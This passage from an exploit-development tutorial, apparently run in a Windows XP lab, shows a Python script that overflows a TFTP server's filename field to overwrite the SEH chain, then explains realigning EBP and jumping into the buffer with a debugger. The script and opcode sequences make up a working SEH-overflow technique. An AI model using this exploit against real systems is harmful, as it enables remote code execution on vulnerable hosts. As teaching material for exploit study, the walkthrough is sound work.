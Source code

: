 Our new exploit taking this in account is as follows:



```python
import socket 

host = "127.0.0.1"
port = 69 

filename = "A" * (1492-126)
filename += "\xCC" * 126
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

Lets check that:


[![](https://4.bp.blogspot.com/-4AQaZipUEjg/UK6GGBoSO0I/AAAAAAAAAHI/Gl3gHZ1Jczw/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_036.png)](https://4.bp.blogspot.com/-4AQaZipUEjg/UK6GGBoSO0I/AAAAAAAAAHI/Gl3gHZ1Jczw/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_036.png)




Aligning EBP

Ok now notice that the register EBP points near to our buffer. Right click on EBP, click `"Follow in Stack"` and then double click on the first entry. Scroll down a bit and you should notice the following:


[![](https://3.bp.blogspot.com/-pbg9ss6gq2c/UK6I2Fr3C2I/AAAAAAAAAHU/LdyEjtanx3c/s0/Selection_037.png)](https://3.bp.blogspot.com/-pbg9ss6gq2c/UK6I2Fr3C2I/AAAAAAAAAHU/LdyEjtanx3c/s0/Selection_037.png)


We can increase EBP to get it to point to the beginning of our buffer of `\x41`'s by doing the following:


[![](https://3.bp.blogspot.com/-YTKrPQ539kM/UK6LJq8czWI/AAAAAAAAAHk/pEGE2HZ2AAk/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_038.png)](https://3.bp.blogspot.com/-YTKrPQ539kM/UK6LJq8czWI/AAAAAAAAAHk/pEGE2HZ2AAk/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_038.png)


By doing `\x83\xC5\x50` 15 times over to increase EBP to the right and then doing `\xFF\xE5` to execute a JMP EBP, we actually jump directly to the beginning of the buffer.

Actually in this picture i would like to point out a few things:


*   If you look in the register menu you can see EBP pointing to our string of A's.
*   You can see these A's in the bottom left (btw this is not shown but the next line up is the name of the program so this is literally the first line of A's that we sent.
